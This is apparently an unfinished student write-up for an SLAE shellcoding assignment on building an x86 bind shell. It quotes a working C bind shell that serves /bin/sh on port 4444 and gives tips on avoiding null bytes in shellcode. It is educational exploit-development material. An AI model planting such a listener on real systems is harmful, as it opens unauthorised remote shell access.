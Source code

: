 # WIP

## Assignment 1 - Bind Shell

### What does a Bind Shell need to do?

A high level overview of a Bind Shell is that it creates a socket, binds that
socket to a port, listens for a connection, accepts a connect, then duplicates
STDIN, STDOUT, and STDERR to the file descriptor of the connected socket, and
finally execs /bin/sh (or another shell). One of my favorite resources for shellcoding is the tutorial series by Azeria Labs for exploitation on the ARM architecture. I outlined what my shellcode needed to accomplish by looking at Azeria's C version of a [bind shell](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/):
```C
    // Create new TCP socket 
    host_sockid = socket(PF_INET, SOCK_STREAM, 0); 

    // Initialize sockaddr struct to bind socket using it 
    hostaddr.sin_family = AF_INET;                  // server socket type address family = internet protocol address
    hostaddr.sin_port = htons(4444);                // server port, converted to network byte order
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);   // listen to any address, converted to network byte order

    // Bind socket to IP/Port in sockaddr struct 
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 

    // Listen for incoming connections 
    listen(host_sockid, 2); 

    // Accept incoming connection 
    client_sockid = accept(host_sockid, NULL, NULL); 

    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    dup2(client_sockid, 0); 
    dup2(client_sockid, 1); 
    dup2(client_sockid, 2); 

    // Execute /bin/sh 
    execve("/bin/sh", NULL, NULL); 
    close(host_sockid);
```

### The Process
Writing unobfuscated shellcode in x86 assembly is straightforward. It consists of moving the appropriate values into registers for a series of system calls. A quick ```man 2 syscall``` reveals the calling convention and Application Binary Interface (ABI). However, a few issues require some forethought: 
1. Avoiding null bytes (0x00) or other bad characters if needed
    - XOR a register with itself to zero it out, e.g. ```xor eax, eax``` instead of ```mov eax, 0```
    - Write to 8- or 16-bit registers to avoid leading zeros, e.g. ```mov al, 10``` instead of ```mov eax, 10```
2. Building a *sockaddr* struct on the stack
3. Strings, because our code is position independent

### Headache #1 - Building a sockaddr
Re-write this better later: I tripped over the ```struct sockaddr *``` required as the second argument to the *bind* syscall. What order were the address family, port, and IP address to be passed? Where was the padding?

I used a "Guess and Check" approach, writing assembly to build various permutations of this on the stack:

| value     | location  | meaning               |
|------     | --------- | -----                 |
|0x02005555 | rsp       | AF\_INET, port 0x5555 |
|0x00000000 | rsp + 4   | INADDR\_ANY           |

This *seemed* right. However, when I compiled and ran ```printf("size = %d\n",
sizeof(struct sockaddr));``` and saw the struct consisted of 16 bytes, that
suggest *four* 32-bit (4 byte) values, not two. Sadly, I got stuck at this juncture and looked for how someone else did it:

Another SLAE student [https://github.com/ricardojoserf/slae32/tree/master/a1_Shell_Bind_Tcp](https://github.com/ricardojoserf/slae32/tree/master/a1_Shell_Bind_Tcp)
pushed first the IPv4 address, then the port number as a *word*, and lastly the *sin\_family* as a *word*.  
